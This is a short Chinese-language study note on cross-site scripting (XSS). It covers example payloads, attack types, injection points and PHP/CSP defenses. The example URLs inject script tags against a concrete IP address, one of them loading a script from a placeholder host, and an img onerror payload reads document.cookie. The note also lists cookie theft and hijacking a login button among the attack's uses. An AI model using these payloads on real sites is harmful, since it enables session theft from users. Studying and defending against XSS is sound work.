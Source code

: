 # 1.XSS跨站脚本攻击

标签： Cross Site Scripting

----

**Contents**

- [XSS跨站脚本攻击](#XSS跨站脚本攻击)
    - [XSS跨站脚本攻击初步认识](#XSS跨站脚本攻击初步认识)


----



## XSS跨站脚本攻击初步认识
### 1.XSS例子

```url
1.http://120.78.72.189:9999/from=<script>alert("hello xss")</script>
2.http://120.78.72.189:9999/from=<script src="http://xxx.com/xx.js">alert("hello xss")</script>
```			
	
### 2.原理
将本来显示文本的html显示区域恶意修改成一段js脚本


### 3.XSS能做什么
	1.获取页面上的数据，通过dom随便拿。
	2.可以拿到Cookies，一些用户登录的信息都能拿到。
	3.劫持前段的逻辑，登录按钮直接变成付款按钮了。
	4.将有XSS漏洞的网站，比如搜索框有XSS漏洞的，keyword连接上一个盗取cookie脚本，别人直接点开来就能直接盗取其Cookie。
	5.空间博客类发表一篇带XSS漏洞的博客，只要任何人浏览了日志，也能够直接盗取浏览者的信息，还能盗取admin后台的管理员信息。
	6.还有好多...

### 4.XSS攻击类型
	1.反射型，直接通过URL注入，像之前的搜索框注入，反射型一般需要把长网址发送给被攻击者，容易被发现，所以一般都会做一个短网址转换。
	2.存储型，存储到数据库读取的时候注入，像之前的日志注入，评论注入。

### 5.XSS攻击注入点
	1.HTML节点内容,评论注入<script>
	2.HTML属性 <img src="1" onerror="alert(document.cookie)" />
	3.JS代码,  var data = "${data}"，从后台获取数据可能会被注入
	4.富文本,得保留HTML,HTML又有XSS危险

### 6.防御方案
	1.chrome会防御，或者后台设置X-XSS-Protection，但是防御范围很有限，没啥用。
	2.防御HTML节点、属性，将尖括号，引号等进行转义。
	3.防御JS代码，将双引号转换成斜杠双引号，对斜杠也要进行转义。
	4.防御富文本，在文章入库的时候取出dom树来校验黑白名单。（使用第三方库比较方便）

### 7.CSP
	* Content Security Policy 内容安全策略
	* 用于指定哪些内容可以执行

	1.可以定义 unsafe-inline script-src，设置一些规则是否可以执行。

### 8.PHP中防御XSS
	1.使用内置函数转义,strip_tags(),移除所有标签。htmlspecialchars(),可以保留显示标签。
	2.dom解析白名单
	3.用第三方库，github随手一搜就O了。
	4.CSP。header("Content-Security-Policy: script-src 'self'");
